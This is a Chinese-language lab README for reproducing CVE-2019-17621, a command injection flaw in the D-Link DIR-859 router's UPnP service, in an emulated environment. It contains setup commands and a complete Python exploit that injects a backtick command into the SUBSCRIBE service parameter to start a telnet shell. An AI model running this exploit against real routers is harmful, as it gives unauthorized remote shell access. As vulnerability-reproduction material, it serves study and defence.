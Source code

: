 # D-Link DIR-859 命令注入漏洞（CVE-2019-17621）

## 漏洞环境

- docker：攻击、调试主机：192.168.2.1
- firmadyne：固件主机：192.168.0.1
- htdocs/cgibin（有漏洞的服务程序）：192.168.0.1:49152

本环境关系依赖如下，需依次构建：

```sh
# firmianay/ubuntu1604 -> firmianay/binwalk:noentry -> firmianay/firmadyne（或者 firmianay/firmae）

$ cd baseImage/ubuntu1604 && docker build -t firmianay/ubuntu1604 . && cd ../../
$ cd baseImage/binwalk && docker build -t firmianay/binwalk:noentry . && cd ../../../   # build前要先注释掉ENTRYPOINT
$ cd baseImage/firmadyne && docker build -t firmianay/firmadyne . && cd ../../../
```

（可选）使用 `firmianay/binwalk` 解压固件：

```sh
$ docker run --rm -v $PWD/firmware/:/root/firmware firmianay/binwalk -Mer "/root/firmware/DIR822A1_FW103WWb03.bin"
```

然后即可构建本例镜像：

```sh
# cp baseImage/busybox/1.31.0/busybox-mips CVE-2019-20760/system-emu/tools/busybox
# cp baseImage/gdbserver/7.11.1/mips-gdbserver-7.11.1 CVE-2019-20760/system-emu/tools/gdbserver

$ docker-compose -f docker-compose-firmadyne.yml build
# 或者：docker-compose -f docker-compose-firmae.yml build
```

最后启动漏洞环境：

```sh
$ docker-compose -f docker-compose-firmadyne.yml up

# 启动完成后，开启 socks 代理
$ ssh -D 2345 root@127.0.0.1 -p 1234
# 配置浏览器代理，即可登陆 Web 后台 http://192.168.0.1/

# 漏洞利用
$ python3 tools/exp.py
```

使用 nmap 扫描可以发现 `9999` 端口被开启，运行 telnet 服务：

```
root@4fd552722f7a:~# nmap 192.168.0.1
PORT      STATE SERVICE
80/tcp    open  http
443/tcp   open  https
9999/tcp  open  abyss
49152/tcp open  unknown
```

## 漏洞复现

![img](./poc.png)

## Exploit

```py
#!/usr/bin/python3

import socket
import os
from time import sleep

def httpSUB(server, port, shell_file):
    print('\n[*] Connection {host}:{port}'.format(host=server, port=port))

    con = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    request  = "SUBSCRIBE /gena.cgi?service=" + str(shell_file) + " HTTP/1.0\n"
    request += "Host: " + str(server) + str(port) + "\n"
    request += "Callback: <http://192.168.0.4:34033/ServiceProxy27>\n"
    request += "NT: upnp:event\n"
    request += "Timeout: Second-1800\n"
    request += "Accept-Encoding: gzip, deflate\n"
    request += "User-Agent: gupnp-universal-cp GUPnP/1.0.2 DLNADOC/1.50\n\n"
    print('[*] Sending Payload')
    sleep(1)

    con.connect((socket.gethostbyname(server), port))
    con.send(request.encode())
    results = con.recv(4096)
    print('[*] Running Telnetd Service')
    sleep(2)

    print('[*] Opening Telnet Connection\n')
    os.system('telnet ' + str(server) + ' 9999')

serverInput = "192.168.0.1"
portInput = 49152
httpSUB(serverInput, portInput, '`telnetd -p 9999 &`')
```

## 参考链接

- https://mp.weixin.qq.com/s/TzFepaBpYnMbZ8Mep4IXwA
- https://mp.weixin.qq.com/s/QLRxTfurYTPX3NNR3nZOMg
